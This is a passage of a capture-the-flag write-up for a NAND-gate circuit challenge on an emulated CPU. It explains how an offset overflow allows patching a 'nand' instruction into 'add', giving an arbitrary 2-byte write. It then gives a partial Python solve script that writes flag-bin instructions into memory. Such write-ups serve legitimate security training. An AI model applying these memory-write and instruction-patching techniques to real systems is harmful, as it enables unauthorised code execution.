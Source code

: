 Writing `0xfff` to the output node of a nand gate, than inverting it to `0xf000` will generate an offset of `0xe000` when scaled by 2. `0xe000 + 0x2000 & 0xffff == 0x0000`, which lets us modify the instructions of `nand_checker`. From here we just need to patch the `nand r0, r1` instruction to `add r0, r1` which allows us to contruct a 2 byte arbitrary write primitive.

From here exploitation is simple. We overwrite the instructions after the nand processing loop with the instructions from `flag.bin`. Once the cpu halts the flag bit will be set and we get the second flag.

## scripts

### solve script

```py open
import requests

IN1, IN2, IN3, IN4 = range(5, 9)
OUT1, OUT2, OUT3, OUT4 = range(1, 5)

def con(a: int, b: int, o: int):
    return { "input1": a, "input2": b, "output": o }

def num(n: int, const: int, dest: int):
    r = []
    for b in f"{n:0b}"[1:]:
        r.append(con(dest, dest, dest))
        if b == "1":
            r.append(con(0 + const, dest, dest))
    return r

def write(base: int, addr: int, n: int):
    total = base - 4 + addr.bit_length() + addr.bit_count() + n.bit_length() + n.bit_count()
    total *= 3
    const = total + 3
    r = [
        *num(addr, 0x800 + const, 0x800 + total + 2),
        *num(n, 0x800 + const, 0x800 + const + 1),
        con(0xff0, 0x800 + const + 1, 1),
        con(1, 1, 1),
    ]
    return r

A = 0
B = A + 6
TARGET = A + 10 * 3

circ= [
    con(0xfff, 0xfff, 0xfff),
    con(0xfff, 0xfff, 0xfff),
    con(0x22, 0x101, 0x101),
    con(0x800 + A + 0, 0x800 + A + 1, 0x800 + TARGET + 2),
    con(0x800 + A + 2, 0x800 + A + 3, 0x800 + TARGET + 2),

    con(0x800 + A + 4, 0x800 + A + 5, 0x800 + TARGET + 2),
    con(0x800 + TARGET + 2, 0x800 + TARGET + 2, 0x800 + TARGET + 2),
    con(0x800 + B + 0, 0x800 + B + 0, 0x800 + B + 0),
    con(0x800 + TARGET + 2, 0x800 + B + 0, 0x800 + TARGET + 2),
    con(0x800 + B + 1, 0x800 + B + 1, 0x800 + B + 2),

    con(0x800 + B + 2, 0x800 + B + 2, 1),
]
circ.extend(write(len(circ), 0xf000 + 38, 0x0d))
circ.extend(write(len(circ), 0xf000 + 39, 0x6f73))
circ.extend(write(len(circ), 0xf000 + 40, 0x1d))
```